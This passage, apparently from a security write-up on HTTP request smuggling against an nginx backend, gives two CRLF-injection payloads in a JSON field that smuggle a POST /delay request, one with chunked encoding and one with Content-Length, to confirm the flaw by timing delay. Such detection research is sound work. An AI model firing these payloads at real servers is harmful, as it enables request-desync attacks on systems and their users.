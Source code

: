 ![nginx_backend](images/nginx_backend.png)

Now? There are some other payloads that can be used to identify successful request smuggling causing delays on the smuggled request.

The below payload causes a delay on the smuggled request with invalid transfer-encoding chunked.

```
"foo":"bar \r\n\r\nPOST /delay HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nTransfer-Encoding: chunked\r\n\r\n9999\r\n"
```

The below payload causes a delay on the smuggled request with content-length.

```
"foo":"bar \r\n\r\nPOST /delay HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 6\r\n\r\n"
```

Example screenshot:
